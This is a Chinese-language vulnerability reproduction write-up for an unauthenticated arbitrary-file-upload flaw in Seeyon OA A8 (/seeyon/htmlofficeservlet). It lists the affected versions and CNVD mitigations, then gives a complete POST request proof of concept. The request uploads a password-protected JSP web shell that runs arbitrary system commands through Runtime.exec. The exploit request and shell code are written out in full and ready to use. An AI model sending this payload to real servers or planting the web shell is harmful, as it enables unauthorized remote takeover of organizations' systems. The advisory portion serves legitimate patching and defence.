



致远OA A8 系统远程命令执行漏洞
==============================

一、漏洞简介
------------

该系统的漏洞点在于致远OA-A8系统的Servlet接口暴露，安全过滤处理措施不足，使得用户在无需认证的情况下实现任意文件上传。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的网站后门文件，从而获取目标服务器权限，在目标服务器上执行任意代码。

二、漏洞影响
------------

漏洞影响的产品版本包括：

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件V7.1

漏洞处置建议

临时修补方案如下：

1、 配置URL访问控制策略；

2、
在公网部署的致远A8+服务器，通过ACL禁止外网对"/seeyon/htmlofficeservlet"路径的访问；

3、 对OA服务器上的网站后门文件进行及时查杀。

建议使用致远OA-A8系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。
详情请移步CNVD官网查看<https://www.cnvd.org.cn/webinfo/show/5095>

三、复现过程
------------

先访问/seeyon/htmlofficeservlet
 出现DBSTEP V3.0 0 21 0 htmoffice operate
err
 掏出burp进行抓包替换成poc如下
 提交POST请求包，查看回显如下

### 小结

POC：(POST包)

    POST /seeyon/htmlofficeservlet HTTP/1.1
    Content-Length: 1121
    User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
    Host: xxxxxxxxx
    Pragma: no-cache

    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
    OPTION=S3WYOSWLBSGr
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
    CREATEDATE=wUghPB3szB3Xwg66
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
    originalFileId=wV66
    originalCreateDate=wUghPB3szB3Xwg66
    FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
    needReadFile=yRWZdAS6
    originalCreateDate=wLSGP4oEzLKAz4=iz=66
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd3344".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7c
